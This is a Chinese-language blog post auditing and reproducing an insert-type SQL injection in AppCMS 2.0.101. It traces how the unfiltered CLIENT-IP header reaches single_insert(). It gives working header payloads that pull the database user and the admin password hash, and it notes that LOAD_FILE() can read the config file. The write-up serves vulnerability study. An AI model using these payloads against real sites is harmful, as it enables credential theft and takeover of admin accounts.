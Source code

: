 ```yaml
---
layout: post
title: AppCMS 2.0.101 评论处insert注入复现
comments: false
description: ""
keywords: "Vulnerability"
---
```


一例SQL注入的代码审计，insert注入类型，Client-ip处触发漏洞；

## 环境搭建

> Apache + php 5.2.17 + mysql 5.5.53

官网下载最新版：[AppCMS 2.0.101](http://www.appcms.cc/html/gengxin.html)

## AppCMS?

一款 APP 推广类型的网站，提供下载，评论等功能；

## Demo

这里在id为10的app页面的评论处抓包：

![appcms_1.png](/assets/images/2017-12-03/2172862491.png)

添加`CLIENT-IP`字段，并将注入的payload添加在此；

```
CLIENT-IP:10.10.10.1'),('10','0','0',(select USER()),'HAHA','1510908798',1)#
```

这里将显示在content字段上，也可以显示在name上，评论需要验证码；

![appcms_2.png](/assets/images/2017-12-03/3855121498.png)

注入完整的SQL语句为：

```
insert into appcms_comment(id,type,parent_id,content,uname,data_add.ip) values ('10','0','0','1','Go0s','1510908798','10.10.10.1'),('10','0','0',(select USER()),'HAHA','1510908798',1)#
```

## 漏洞触发过程

**comment.php** —> $res = $dbm —> `single_insert`(TB_PREFIX . 'comment', `$fields`); —> $fields['`ip`'] = helper :: `getip()`;

**helper.class.php** —> public static function `getip()` {} —> $onlineip = getenv('`HTTP_CLIENT_IP`'); —> 输入可控

**database.class.php** —> public function `single_insert`($table_name, $fields){} —> SQL语句没过滤，造成注入

## comment.php 分析

```
29-30 行
$page['get'] = $_GET; //get参数的 m 和 ajax 参数是默认占用的，一个用来执行动作函数，一个用来判断是否启用模板还是直接输出JSON格式数据
$page['post'] = $_POST;

57-86 行
function m__add() {
    global $page, $dbm, $c;

    $fields = array();
    foreach($page['post'] as $key => $val) {
        $page['post'][$key] = htmlspecialchars(helper :: escape($val));
    } 
    if (empty($page['post']['comment'])) {
        die('{"code":"1","msg":"发表内容不能为空"}');
    } 
    $code = md5(strtoupper($page['post']['code']));
    if ($code != $_SESSION['feedback']) {
        die('{"code":"140","msg":"验证码错误"}');
    }
    $fields['id'] = $page['post']['id'];if(!is_numeric($fields['id'])) die();
    $fields['type'] = $page['post']['type'];if(!is_numeric($fields['type'])) die();
    $fields['parent_id'] = $page['post']['parent_id'];if(!is_numeric($fields['parent_id'])) die();
	$content = $c -> filter_words($page['post']['comment']);
    $fields['content'] = helper :: utf8_substr($content, 0, 300);
	$user = $c -> filter_words($page['post']['user'], 'user');
    $fields['uname'] = helper :: utf8_substr($user, 0, 10);
    $fields['date_add'] = time();
    $fields['ip'] = helper :: getip();
    if ($fields['parent_id'] != 0) {
        $ress = $dbm -> query_update("UPDATE " . TB_PREFIX . "comment SET son = son + 1 WHERE comment_id = '{$fields['parent_id']}'");
    } 
    $res = $dbm -> single_insert(TB_PREFIX . 'comment', $fields);
    if (empty($res['error']) && empty($ress['error'])) die('{"code":"0","msg":"恭喜发表成功"}');
    die('{"code":"1","msg":"发表失败：' . $ress['error'] . '"}');
} 
```

(1)这里将外部POST&GET的值赋给$fields数组，寻找数据可控点；

id、type、parent_id均使用`is_numeric()`进行了类型判断；

content、uname并没有限制，可作为注入返回内容的显示点；

date_add使用time()函数直接赋值；

ip使用了helper类的`getip()`方法；

(2)query_update()、single_insert()可作为注入触发点；

query_update()的{$fields['parent_id']}如(1)所述，类型判断，直接gg；

而`single_insert()`则直接将$fields全部作为参数，那么即可调用`$fields['ip']`，即触发`getip()`，跟进这个方法；

## helper.class.php 分析

```
47-57 行
public static function getip() {
    $onlineip = '';
    if (getenv('HTTP_CLIENT_IP') && strcasecmp(getenv('HTTP_CLIENT_IP'), 'unknown')) {
        $onlineip = getenv('HTTP_CLIENT_IP');
    } elseif (getenv('REMOTE_ADDR') && strcasecmp(getenv('REMOTE_ADDR'), 'unknown')) {
        $onlineip = getenv('REMOTE_ADDR');
    } elseif (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], 'unknown')) {
        $onlineip = $_SERVER['REMOTE_ADDR'];
    }
    return $onlineip;
}
```

存在`HTTP_CLIENT_IP`，即注入数据可控，进行ip伪造来进行输入，且并没有进行过滤；

那么触发点呢？

## database.php 分析

```
102-120 行
public function single_insert($table_name, $fields) {
        if (!is_array($fields) || count($fields) == 0) return array('sql' => '', 'error' => '插入失败，插入字段为空', 'sql_time' => 0, 'autoid' => 0);

        $sql_field = "";
        $sql_value = ""; 
        // 遍历字段和值
        foreach($fields as $key => $value) {
            $sql_field .= ",$key";
            $sql_value .= ",'$value'";
        } 

        $sql_field = substr($sql_field, 1);
        $sql_value = substr($sql_value, 1);

        $sql = "insert into $table_name ($sql_field) values ($sql_value)"; //组合SQL
        $result = $this -> query_insert($sql);

        return $result;
    } 
```

没有任何过滤，拿来就使用`foreach`来遍历数组来组成最终的SQL语句；

`$table_name`参数是由`TB_PREFIX.'comment'`直接来控制，config.conn.php中直接定义`define('TB_PREFIX', 'appcms_');`，也并不存在影响；

`query_insert()`也并没有任何过滤，一个insert类型的SQL注入出现了；

## 后台管理密码

管理用户名uname和密码upass在appcms_admin_list表中；

```
CLIENT-IP:10.10.10.1'),('10','0','0',(select upass from appcms_admin_list where uid= '1'),'HAHA','1510908798',1)#
```

![appcms_3.png](/assets/images/2017-12-03/3501101107.png)

## 后台？

这款cms默认安装后，需强制修改后台文件夹名，且并不记录在配置文件中，gg；

并且后台登录需要安全吗，不过可以利用这个注入进行`LOAD_FILE()`来读取，位于`core/config.php`19行；

这里需要注意截断，因为可用于显示`$fields['content'] = helper :: utf8_substr($content, 0, 300);`进行了截断；

绝对路径可以直接进行报错显示；

![appcms_4.png](/assets/images/2017-12-03/809630740.png)

Thinking 师傅使用了一套组合拳，xss + csrf，来打后台并创建管理权限用户；

很佩服；
